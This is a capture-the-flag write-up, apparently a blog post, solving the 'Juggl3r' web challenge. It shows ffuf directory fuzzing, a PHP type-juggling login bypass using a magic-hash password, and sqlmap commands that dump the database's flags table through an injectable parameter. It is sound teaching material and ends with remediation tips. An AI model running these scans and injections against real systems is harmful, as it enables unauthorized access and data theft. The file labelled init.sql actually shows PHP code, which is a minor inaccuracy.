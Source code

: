 ```yaml
---
title: "Juggl3r"
summary: "Juggler challenge from blockctf"
categories: ["Blockctf","Blog",]
tags: ["Blockctf"]
#externalUrl: ""
#showSummary: true
date: 2024-11-18
draft: false
---
```



# **Challenge Description**

- **Name:** Juggl3r
- **Category:** Web Exploitation
- **Points:** 200
- **Challenge Description:**  
    The admin panel seems locked behind some odd logic, and the flag is hidden deep. Can you bypass the checks and uncover the secret?  
    URL: [[http://54.85.45.101:8080/](http://54.85.45.101:8080/)]

---

# Solution

## enumeration

To begin, I scanned the target for directories and files using `ffuf`.
```shell
ffuf -u http://54.85.45.101:8080/FUZZ -ac -w /home/wordlists/SecLists/Discovery/Web-Content/combined_words.txt
```
![[Pasted image 20241114151734.png]]
**Result:**  
The scan revealed a `/src` directory that indexed several files. Among them, `config.php` and `init.sql` stood out as interesting.

- `config.php`: Empty.
- `init.sql`: Contained SQL instructions and sensitive data.
![[Pasted image 20241114152221.png]]

Here is the content of `init.sql`:
```php

if (isset($_GET['user_id'])) {
    $user_id = $_GET['user_id'];

    $sql = "SELECT * FROM users WHERE id = $user_id";
    $stmt = $conn->query($sql);

    if ($stmt && $user = $stmt->fetch()) {
        $message = "User found: " . htmlspecialchars($user['username']);
    } else {
        $message = "User not found.";
    }
} else {
    $message = "Please provide a user ID.";
}
```

## PHP Type Juggling Vulnerability

The `admin` user’s hash (`0e662...`) raised a red flag. This format is often indicative of a PHP type juggling vulnerability, especially when combined with weak comparison logic. The challenge name, "Juggl3r," further hinted at this issue.

### What is PHP Type Juggling?

PHP’s loose comparison (`==`) can interpret strings that start with `0e` as scientific notation (`0e+...`), which equals zero. If both a user-provided string and a stored hash evaluate to the same numeric value (`0`), the comparison will succeed.

### Exploitation

Researching SHA-256 "magic hashes" led me to a payload that produces the same hash as `0e662...`:

- **Username:** `admin`
- **Password:** `TyNOQHUS`

I logged in successfully with these credentials, accessing the admin panel.

---

## SQL Injection on `admin.php`

Once inside, I noticed that the admin panel’s URL included a `user_id` parameter:
```
http://54.85.45.101:8080/admin.php?user_id=1
```
![[Pasted image 20241119135439.png]]

By reviewing the `/src/admin.php` file, I discovered the following vulnerable code:

```php

$sql = "SELECT * FROM users WHERE id = $user_id";
$stmt = $conn->query($sql);

```

The query concatenates user input directly, making it susceptible to SQL Injection (SQLi). Using `sqlmap`, I automated the exploitation to enumerate databases and dump sensitive information.

### SQLi Steps

1. **Enumerate Databases:**
    
    ```shell
    sqlmap -u "http://54.85.45.101:8080/admin.php?user_id=1" --cookie="PHPSESSID=..." --dbs
    ```
    
    ![[Pasted image 20241114161202.png]]
    
2. **Enumerate Tables in `ctf_challenge`:**
    
    ```shell
    sqlmap -u "http://54.85.45.101:8080/admin.php?user_id=1" --cookie="PHPSESSID=..." -D ctf_challenge --tables
	```
    
    ![[Pasted image 20241114161128.png]]
    
3. **Dump the Flag:**
    
    ```shell

    sqlmap -u "http://54.85.45.101:8080/admin.php?user_id=1" --cookie="PHPSESSID=..." -D ctf_challenge -T flags --dump

    ```
    
    ![[Pasted image 20241114161051.png]]

---

# Flag

flag{juggl3_inject}

---

### **Key Takeaways**

1. **PHP Type Juggling:**  
    Always use strict comparison (`===`) to avoid vulnerabilities when handling user input and hashes.
    
2. **SQL Injection Prevention:**
    
    - Use prepared statements or parameterized queries.
    - Sanitize and validate user inputs.

---

### **References**

- OWASP: PHP Type Juggling
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)